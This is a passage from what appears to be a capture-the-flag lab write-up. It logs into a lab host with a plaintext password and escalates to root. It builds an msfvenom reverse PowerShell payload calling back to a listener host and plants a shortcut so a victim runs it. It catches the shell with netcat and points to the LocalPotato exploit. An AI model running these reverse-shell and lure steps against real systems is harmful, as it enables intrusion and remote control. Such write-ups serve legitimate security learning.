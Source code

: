 We can also SSH into LAB-2 with WAO’s creds and immediately `sudo su` into root — easiest W of my life.

```console
$ ssh wao@192.168.99.12
wao@192.168.99.12's password: WebAO1337

$ sudo su
root@LAB-2:#
```

Alright, so plot twist time — instead of begging the main server to run our payload, we switch to “what if `WS-3` does the heavy lifting?” energy. The idea: if a file gets opened from `WS-3`, we can make it point straight to `LAB-2` and skip all the drama. So I tweak my reverse shell to target `LAB-2`'s IP (192.168.99.12) instead:

```console
$ msfvenom -p cmd/windows/reverse_powershell lhost=192.168.99.12 lport=1337 > rev.bat

*Evil-WinRM* PS C:\Windows\Temp> hostname
WS-3
*Evil-WinRM* PS C:\Windows\Temp> upload shell.bat
```

Now the plan is simple: craft the `.url` file so it points at that batch file living on `WS-3`. As soon as some unsuspecting professor/admin clicks the shortcut, `WS-3` will execute it, and boom — the callback will land right in `LAB-2`’s waiting arms.

```console
root@LAB-2:# nc -nlvp 1337
Listening on [0.0.0.0]
Connection from 192.168.99.2 59755 received!

C:\Users\Martin.T\Desktop>type README.txt

Hello Professors.
We have created this note for all the users on the domain computers: WS-1, WS-2 and WS-3.
These computers have not been updated since 10/29/2023.
Since these devices are used for content evaluation purposes, they should always have the latest security updates.
So please be sure to complete your current assessments and move on to the computers "WS-4" and "WS-5".
The security team will begin working on the updates and applying new security policies early next month.
Best regards.
Help Desk team - Rose Lanosta.
```

## Root
Right — now that we’ve got `Martin.T` on `WS-3`, that “not updated since 10/29/2023” note is basically a neon sign saying “Potato season is open”. The date is hinting to the latest Potato exploit called [LocalPotato](https://github.com/decoder-it/LocalPotato) (a.k.a CVE-2023-21746). This exploit makes it possible to overwrite any file on the server, so let's look for things that seem worthwhile.
